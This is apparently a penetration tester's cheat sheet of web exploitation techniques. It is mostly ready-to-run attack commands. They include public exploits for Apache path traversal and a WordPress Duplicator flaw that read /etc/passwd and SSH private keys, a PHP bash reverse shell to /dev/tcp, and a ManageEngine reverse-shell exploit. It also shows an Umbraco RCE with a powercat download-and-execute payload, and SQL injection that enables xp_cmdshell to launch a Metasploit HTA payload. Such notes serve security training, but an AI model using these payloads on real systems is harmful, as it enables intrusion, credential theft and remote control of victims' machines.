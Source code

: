 # 01 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: Local File Inclusion](#Example-Local-File-Inclusion)
    - [ID 50383 CVE-2021-41773](#ID-50383-CVE-2021-41773)
    - [ID 50420 CVE-2020-11738](#ID-50420-CVE-2020-11738)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793 CVE-2020-14008](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
    - [ID 49488 RCE and Reverse Shell](#ID-49488-RCE-and-Reverse-Shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: Local File Inclusion
### ID 50383 CVE-2021-41773
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

### ID 50420 CVE-2020-11738
Wordpress Plugin Duplicator 1.3.26:
``` bash
python3 50420.py http://192.168.1.1 /etc/passwd             ## read file passwd, user enum
python3 50420.py http://192.168.1.1 /home/$user/.ssh/id_rsa ## read rsa key, possible ssh access
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KAI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

### ID 49488 RCE and Reverse Shell
Umbraco 7.14 RCE p-o-c:
``` bash
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c whoami
```
Exploit + Reverse Shell Payload (powercat based):
``` bash
### exploit                                                    ### command   ### reverse shell as argument                            ### KALI                    ## require nc listener: nc -nvlp 443
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c powershell -a "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
